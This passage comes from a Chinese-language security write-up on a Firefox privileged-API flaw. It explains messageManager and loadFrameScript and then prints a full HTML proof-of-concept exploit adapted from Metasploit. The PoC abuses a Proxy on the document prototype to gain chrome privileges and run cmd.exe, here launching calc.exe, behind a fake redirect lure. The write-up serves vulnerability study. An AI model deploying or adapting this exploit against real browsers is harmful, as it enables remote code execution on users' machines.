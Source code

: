 messageManager是firefox中的特权API，能够在线程间传递信息。同样，javascript也是可以传递的，方式是使用loadFrameScript函数。

0x05 命令执行
=====

作者其实这块写的特别简略，直接告诉我可以怎样写metasploit exploit，可明明POC都没告诉我呀！！对于我这种没开发过firefox插件、没读过源码的通知简直就……我想到一张操蛋的图：

![enter image description here](http://drops.javaweb.org/uploads/images/1af6fd60259291ab7358dd75f34d8750f9619744.jpg)

对，就像这样……

于是我更新了metasploit，生成了一个exploit来研究。得出了如下的POC：

```
<!doctype html>
<html>
<body>
<script>
var opts = {"zqwessa123": "\n         (function(){var process = Components.classes[\"@mozilla.org/process/util;1\"].createInstance(Components.interfaces.nsIProcess);var sh = Components.classes[\"@mozilla.org/file/local;1\"].createInstance(Components.interfaces.nsILocalFile);sh.initWithPath(\"C:\\\\windows\\\\system32\\\\cmd.exe\");process.init(sh);\nvar shell='calc.exe';var args = [\"\/c\", shell];\n process.run(true, args, args.length);})();\n\n"};
var key = opts['zqwessa123'];
var props = {};
props.has = function(n){
    if (!window.top.x && n=='nodeType') {
      window.top.x=window.open("chrome://browser/content/browser.xul", "x",
        "chrome");
      if (window.top.x) {
        Object.setPrototypeOf(document, pro);
        setTimeout(function(){
          x.location='data:text/html,<iframe mozbrowser src="about:blank"></iframe>';
          setTimeout(function(){
            x.messageManager.loadFrameScript('data:,'+key, false);
            setTimeout(function(){
                x.close();
            },100);
          }, 100)
        }, 100);
      }
    }
}
var pro = Object.getPrototypeOf(document);
Object.setPrototypeOf(document, Proxy.create(props));
</script>

  The page has moved. <span style='text-decoration:underline;'>Click here</span> to be redirected.
</body>
</html>

```

过程还是比较简单，首先创建Proxy对象，实现has方法，has方法实际上就是hook了对象的“in”操作，具体可见Proxy文档。然后将document的prototype设置为Proxy对象，这样实际上我们接管了document的in操作，并且这些代码是有特权的。
